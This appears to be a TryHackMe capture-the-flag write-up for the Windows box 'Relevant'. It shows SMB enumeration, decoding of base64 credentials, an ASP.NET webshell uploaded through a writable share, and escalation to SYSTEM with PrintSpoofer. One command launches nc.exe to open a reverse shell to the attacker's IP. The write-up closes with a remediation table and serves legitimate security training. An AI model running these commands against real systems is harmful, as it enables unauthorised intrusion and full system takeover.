# Relevant — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Medium | **Target IP:** 10.64.188.246 | **Attacker IP:** 192.168.146.25

## Machine info



## Summary

**Relevant** is a TryHackMe room built around a share permission mistake on an otherwise ordinary Windows Server 2016 box. A share named `nt4wrksv` holds a pair of base64-encoded credentials, and the one that checks out also has write access to that same share — which turns out to double as the webroot of a second IIS site running on a non-standard port. Dropping an ASP.NET webshell there gives code execution as the application pool identity, and from there a native `nc.exe` binary delivered via `certutil` opens a stable reverse shell. That identity holds `SeImpersonatePrivilege`, enough for PrintSpoofer to abuse the Print Spooler service and spawn a process as `NT AUTHORITY\SYSTEM`.

**Attack chain:** SMB Enumeration → Base64 Credential Disclosure → Share-to-Webroot Mapping → ASP.NET Webshell Upload (RCE) → LOLBin Payload Delivery (certutil) → Reverse Shell as IIS AppPool → SeImpersonatePrivilege Abuse (PrintSpoofer) → Root

## 1. Reconnaissance

A full TCP port scan showed SMB and RDP alongside two separate IIS 10.0 instances — one on the standard port 80, the other on the non-standard high port 49663:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.64.188.246

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   DNS_Domain_Name: Relevant
|_  DNS_Computer_Name: Relevant
49663/tcp open  http          Microsoft IIS httpd 10.0
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## 2. SMB Enumeration & Credential Disclosure

An unauthenticated share listing turned up a single non-default share, `nt4wrksv`:

```
smbclient -L //10.64.188.246/ -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk
```

It held a single file:

```
smbclient //10.64.188.246/nt4wrksv -N
smb: \> ls
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt
```

Which turned out to be two base64-encoded lines:

```
cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

Decoded:

```
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123
```

```
echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

Validating both against SMB, Bob checked out as a real login:

```
nxc smb 10.64.188.246 -u 'bob' -p '!P@$$W0rD!123'
SMB    10.64.188.246  445  RELEVANT  [+] Relevant\bob:!P@$$W0rD!123
```

Bill fell back to a Guest session, meaning his decoded string isn't actually his password:

```
nxc smb 10.64.188.246 -u 'bill' -p 'Juw4nnaM4n420696969!$$$'
SMB    10.64.188.246  445  RELEVANT  [+] Relevant\bill:Juw4nnaM4n420696969!$$$ (Guest)
```

With Bob confirmed, the next check is his share permissions:

```
nxc smb 10.64.188.246 -u 'bob' -p '!P@$$W0rD!123' --shares
SMB    10.64.188.246  445  RELEVANT  Share           Permissions     Remark
SMB    10.64.188.246  445  RELEVANT  -----           -----------     ------
SMB    10.64.188.246  445  RELEVANT  ADMIN$                          Remote Admin
SMB    10.64.188.246  445  RELEVANT  C$                              Default share
SMB    10.64.188.246  445  RELEVANT  IPC$            READ            Remote IPC
SMB    10.64.188.246  445  RELEVANT  nt4wrksv        READ,WRITE
```

Bob has write access to `nt4wrksv` — the same share holding the credentials, and enough to test whether it doubles as a webroot.

## 3. Share-to-Webroot Mapping & ASP.NET Webshell RCE

Browsing both IIS instances showed nothing but the default splash page, and a `gobuster` pass against each port came up empty. With write access confirmed on `nt4wrksv`, the next move was a harmless test file dropped directly into the share:

```
smbclient //10.64.188.246/nt4wrksv -U bob%'!P@$$W0rD!123' -c 'put test.txt'
```

At the site root on the standard port 80, requesting it back came up empty:

```
curl -v http://10.64.188.246/test.txt
< HTTP/1.1 404 Not Found
```

The high port, 49663, fared no better at its root:

```
curl -v http://10.64.188.246:49663/test.txt
< HTTP/1.1 404 Not Found
< X-Powered-By: ASP.NET
```

But requesting it under a subdirectory named after the share brought it right back — and only on the high port:

```
curl -v http://10.64.188.246:49663/nt4wrksv/test.txt
< HTTP/1.1 200 OK
This is a test.
```

Confirmed: port 49663 maps `nt4wrksv` straight to the webroot, and the `X-Powered-By: ASP.NET` header confirms any `.aspx` dropped there executes. Next up: Michael Daw and Dominic Chell's `awen asp.net webshell`, which runs commands via `Process.Start`.

```
smbclient //10.64.188.246/nt4wrksv -U bob%'!P@$$W0rD!123' -c 'put cmd.aspx'
putting file cmd.aspx as \cmd.aspx (9.2 kB/s) (average 9.2 kB/s)
```



`whoami` through the form confirmed code execution as the application pool identity:



## 4. Reverse Shell & Privilege Enumeration

The webshell only accepts commands through its form, and Windows Defender/AMSI was catching script-based reverse shells — so a native `nc.exe` binary, delivered via `certutil`, was the way out instead. Write access to `C:\Windows\Temp` confirmed a safe staging spot first:



`nc.exe` was served from the attacker box with a quick HTTP server:

```
python3 -m http.server
```

The binary was pulled down directly onto the target:



Triggered from the webshell, it opened a reverse shell on a waiting listener:





`whoami /priv` on that shell showed `SeImpersonatePrivilege` enabled — enough for a Potato/PrintSpoofer-style attack:



The user flag was sitting on Bob's desktop:



## 5. Privilege Escalation

itm4n's PrintSpoofer abuses the Print Spooler service to force the system to authenticate against an attacker-controlled named pipe and spawn a process as `NT AUTHORITY\SYSTEM`. Delivered the same way as `nc.exe`, then run from the stable shell against a second listener:

```
C:\Windows\Temp\PrintSpoofer64.exe -i -c "C:\Windows\Temp\nc.exe 192.168.146.25 5555 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```





With a SYSTEM shell, the root flag was sitting on the Administrator's desktop:



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Plaintext credentials (only base64-obfuscated) exposed on an accessible SMB share | Don't store credentials in plain files on shared resources; use a secrets manager |
| An account has write access to a share mounted as the IIS webroot | Separate data shares from directories served by IIS; never grant write access to an application's own webroot |
| IIS executes any uploaded `.aspx` without restriction or file-type validation | Restrict script execution in writable directories; enforce extension allow-lists |
| `certutil.exe` allows downloading arbitrary binaries from the network (LOLBin) | Block or monitor `certutil -urlcache`/`-verifyctl` outside its legitimate purpose (AppLocker/WDAC, Defender ASR rules) |
| The application pool service account has `SeImpersonatePrivilege` enabled | Apply least privilege to service accounts; apply known mitigations against Potato/PrintSpoofer-style attacks |
